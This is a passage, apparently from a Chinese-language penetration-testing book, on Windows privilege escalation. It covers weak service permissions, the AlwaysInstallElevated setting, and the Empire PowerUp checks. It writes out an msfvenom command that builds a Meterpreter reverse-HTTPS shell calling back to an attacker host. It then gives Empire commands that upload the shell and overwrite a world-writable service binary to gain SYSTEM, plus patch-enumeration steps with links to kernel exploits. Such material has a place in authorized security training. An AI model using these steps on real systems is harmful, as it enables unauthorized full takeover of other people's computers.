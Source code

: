 查找服务中存在的不安全的注册表权限:
- 识别允许更新服务映像路径位置的弱权限账户

检查 AlwaysInstallElevated 注册表项是否已启用：
- 检查 AlwaysInstallElevated 注册表项，该注册表项指示.msi 文件应以较高的权限 ( NT AUTHORITY\SYSTEM ) 安装
- https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/always_install_elevated.rb

请注意，我们并不需要手动完成这些操作，因为别人已经创建了一些好的 metasploit 和 PowerShell 模块，特别是针对 Windows 的模块。在下面的示例中，我们将查看 [PowerUp PowerShell 脚本](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/PowerUp.ps1)。在这种情况下，脚本与 Empire 一起在所有常见的错误配置区域运行查找，比如允许普通用户获得本地管理或系统帐户。在下面的示例中，我们在受害者系统上运行这个程序，发现它有一些本地系统的未引用服务路径。现在，我们可能无法重新启动服务，但我们应该能够利用这个漏洞，等待服务重启。

- Empire PowerUp 模块:
  - usermodule privesc/powerup/allchecks

![](img/chapter_4/4-13.png)

最突出的是:

- ServiceName： WavesSysSvc
- Path： C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe
- ModifiableFile： C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe
- ModifiableFilePermissions： {WriteOwner, Delete, WriteAttributes, Synchronize…}
- **ModifiableFileIdentityReference： Everyone**
- StartName： LocalSystem

看起来任何人都可以编写 WavesSysSyc 服务。这意味着我们可以将 WaveSysSvc64.exe 文件替换为我们自己的恶意二进制文件:

- 创建一个 Meterpreter 二进制文件（后续的文章将讨论如何绕过杀毒软件）
  - msfvenom -p windows/meterpreter/reverse_https LHOST=[ip] LPORT=8080 -f exe > shell.exe
- 使用 Empire 上传二进制文件并替换原始二进制文件
  - upload ./shell.exe C:\users\test\shell.exe
  - shell copy C:\users\test\Desktop\shell.exe “C:\ProgramFiles\Waves\MaxxAudio\WavesSysSvc64.exe”
  - 重新启动服务或等待其重启

一旦服务重新启动，你你应该会收到一个升级为 `system` 权限的 Meterpreter shell 。使用 `PowerUp` powershell 脚本，你将发现许多不同的服务都会有权限提升的可能性。如果你想深入了解 Windows 权限提升的底层问题，请查看 FuzzSecurity 的文章：http://www.fuzzysecurity.com/tutorials/16.html 。

对于未打补丁的 Windows 系统，我们确实有一些权限升级攻击，比如：（ https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1 ）和 ( https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135 ），但是我们如何快速识别目标系统上安装了哪些补丁呢，我们可以在受害者系统上使用系统默认自带的命令来查看安装了哪些系统补丁包。Windows 自带默认命令`systeminfo` 将提取任何给定的 Windows 主机的所有补丁安装历史记录。我们可以拿回这个输出结果，将其复制到我们的 Kali 系统并运行 Windows Exploit Suggester 以查找已知的漏洞然后针对性的进行漏洞利用从而提升权限。


回到你攻击的 Windows 10系统：
- systeminfo
- systeminfo > windows.txt
- 将 windows.txt 复制到你的 Kali 虚拟机的  /opt/Windows-Exploit-Suggester 下
- python ./windows-exploit-suggester.py -i ./windows.txt -d 2018-03-21-mssb.xls

![](img/chapter_4/4-14.png)

这个工具已经有一段时间没有被维护了，但是你还是可以轻松地从中寻找到你正需要的能权限提升的漏洞。
